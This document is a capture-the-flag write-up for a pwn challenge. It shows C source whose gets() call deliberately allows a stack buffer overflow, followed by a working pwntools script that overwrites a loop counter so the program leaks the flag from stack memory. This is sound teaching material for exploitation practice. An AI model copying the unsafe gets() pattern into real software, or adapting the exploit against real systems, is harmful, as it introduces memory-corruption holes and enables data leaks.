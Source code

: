 # AisecCTF

## converter_to_HEX

> I kept on getting my hex mixed up while trying to solve unvariant's pwn challenges, so I wrote my own converter to help me out.
>
> Hint: What's in the stack that we can overwrite?
>
>
> [`chal.c`](chal.c) [`chal`](chal) [`Dockerfile`](Dockerfile)

Tags: _pwn_

## Solution
This challenge comes with a binary plus source code. The code is small

```c
#include <stdio.h>
#include <stdlib.h>

int main()
{
    setbuf(stdout, NULL);
    setbuf(stderr, NULL);

    int i = 0;

    char name[16];
    printf("input text to convert to hex: \n");
    gets(name);

    char flag[64];
    fgets(flag, 64, fopen("flag.txt", "r"));
    // TODO: PRINT FLAG for cool people ... but maybe later

    while (i < 16)
    {
        // the & 0xFF... is to do some typecasting and make sure only two characters are printed ^_^ hehe
        printf("%02X", (unsigned int)(name[i] & 0xFF));
        i++;
    }
    printf("\n");
}
```

Its easy to see that there is a potential buffer overflow when reading the `name` with `gets`. Its possible to override the counter `i` with a negative number so the loop will leak data that is located before the name array, which includes the flag.

```python
from pwn import *
import ctypes

binary = context.binary = ELF("./chal", checksec=False)

if args.REMOTE:
    p = remote("AisecCTF2024", [port])
else:
    p = process(binary.path)

payload = b""
payload += 28*b"A"
payload += p32(ctypes.c_uint(-80).value)

p.sendlineafter(b"convert to hex:", payload)
p.recvline()
buffer = p.recvline()[:-1].decode()
buffer.rjust((len(buffer)//2)*2, "0")
print(bytes.fromhex(buffer))
```

AisecCTF{St1ck_Ov3rwr1t3_c1n_b3_tr1cky}
